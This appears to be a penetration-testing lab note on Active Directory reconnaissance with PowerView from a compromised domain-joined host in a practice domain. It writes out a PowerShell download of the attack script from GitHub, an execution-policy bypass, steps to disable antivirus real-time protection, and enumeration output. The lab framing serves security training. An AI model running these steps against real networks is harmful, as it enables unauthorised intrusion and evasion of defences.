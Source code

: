 #PowerView 
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1


PowerView is ran internally from a compromised Domain joined host:\
- drag over from desktop to rdp session on Domain joined host
- Or from Domain joined host PowerShell

```
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```


Then set Execution Policy to allow script to run:
- From PowerShell
```Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser```
- From cmd line
```powershell -ep bypass```

Run PowerView.ps1
`.\PowerView.ps1`

May need to Temporarily Disable Antivirus

Open Windows Security:

Press Win + I to open Settings, then navigate to Update & Security > Windows Security.
Click on Virus & threat protection.
Manage Settings:

Under Virus & threat protection settings, click on Manage settings.
Disable Real-time Protection:

Turn off Real-time protection.

```
PS C:\Users\fcastle\Desktop> C:\Users\fcastle\Desktop\PowerView.ps1

PS C:\Users\fcastle\Desktop> Get-NetDomain


Forest                  : MARVEL.local
DomainControllers       : {HYDRA-DC.MARVEL.local}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : 
PdcRoleOwner            : HYDRA-DC.MARVEL.local
RidRoleOwner            : HYDRA-DC.MARVEL.local
InfrastructureRoleOwner : HYDRA-DC.MARVEL.local
Name                    : MARVEL.local

PS C:\Users\fcastle\Desktop> Get-NetDomainController


Forest                     : MARVEL.local
CurrentTime                : 7/3/2024 6:09:20 PM
HighestCommittedUsn        : 32849
OSVersion                  : Windows Server 2022 Standard Evaluation
Roles                      : {SchemaRole, NamingRole, PdcRole, RidRole...}
Domain                     : MARVEL.local
IPAddress                  : 192.168.95.132
SiteName                   : Default-First-Site-Name
SyncFromAllServersCallback : 
InboundConnections         : {}
OutboundConnections        : {}
Name                       : HYDRA-DC.MARVEL.local
Partitions                 : {DC=MARVEL,DC=local, 
                             CN=Configuration,DC=MARVEL,DC=local, 
                             CN=Schema,CN=Configuration,DC=MARVEL,DC=local, 
                             DC=DomainDnsZones,DC=MARVEL,DC=local...}
```

many more PowerView commands:
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
